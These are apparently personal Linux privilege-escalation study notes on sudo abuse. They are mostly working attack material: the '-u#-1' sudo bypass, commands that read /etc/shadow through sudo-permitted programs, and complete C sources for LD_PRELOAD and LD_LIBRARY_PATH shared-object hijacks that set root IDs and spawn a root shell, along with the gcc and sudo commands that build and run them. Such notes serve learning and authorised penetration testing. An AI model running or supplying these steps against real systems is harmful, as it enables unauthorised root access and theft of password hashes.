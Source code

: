 

# Q. Why SUDO use?

Ans. it used to run any command as per that defined user.

Ex. **sudo -u kali id        -      run id command as kali user**

SUDO not used to run everything as root

# <1.8.28
https://www.sudo.ws/security/advisories/minus_1_uid/

```
sudo -u#-1 id
```

# Commands intended functionalities

Use command for what it is used for

sudo more /etc/shadow

sudo apache2 -f /etc/shadow (give 1st line)

![[Pasted image 20240510224512.png]]


# Shell escaping

general GTFObins thing

# Passing environment variables

![[Pasted image 20240510224723.png]]

https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

LD_PRELOAD = load custom code first

preload.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here (nano,vim etc anything)
```

library_path.c
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Run ldd against the apache2 program file to see which shared libraries are used by the program:

```bash
ldd /usr/sbin/apache2
```

![[image 1 2.png]]

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

## Escalation via Shared Object Injection

* Do strace for such binary and check for files
